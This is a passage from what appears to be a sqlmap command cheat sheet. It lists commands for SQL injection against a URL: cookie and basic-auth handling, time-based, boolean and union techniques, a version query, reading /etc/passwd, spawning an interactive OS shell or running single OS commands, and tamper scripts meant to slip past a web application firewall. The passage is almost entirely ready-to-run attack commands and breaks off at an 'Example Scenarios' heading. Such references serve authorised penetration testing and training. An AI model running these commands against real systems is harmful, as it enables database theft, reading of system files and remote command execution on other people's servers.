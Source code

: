 **Handle Cookies:**

```bash
sqlmap -u "$URL" --cookie="$COOKIE"
```

**Authentication:**

```bash
sqlmap -u "$URL" --auth-type=basic --auth-cred="$AUTH_CRED"
```

**Blind SQL Injection - Time Based:**

```bash
sqlmap -u "$URL" --time-sec=5 --technique="$TECHNIQUE"
```

**Blind SQL Injection - Boolean Based:**

```bash
sqlmap -u "$URL" --technique="$TECHNIQUE"
```

**Union Query Injection:**

```bash
sqlmap -u "$URL" --technique=U
```

**SQL version (stacked or union-capable targets):**

```bash
sqlmap -u "$URL" --sql-query="SELECT @@version"
```

**File Read:**

```bash
sqlmap -u "$URL" --file-read="/etc/passwd"
```

**OS Command Execution:**

```bash
# Spawn interactive OS shell
sqlmap -u "$URL" --os-shell

# Or run a single command
sqlmap -u "$URL" --os-cmd="id"
```

**Using Tamper Scripts:**

```bash
# Examples: adjust to the target/WAF
sqlmap -u "$URL" --tamper="between,randomcase,space2comment"
```

***

### IV. Example Scenarios
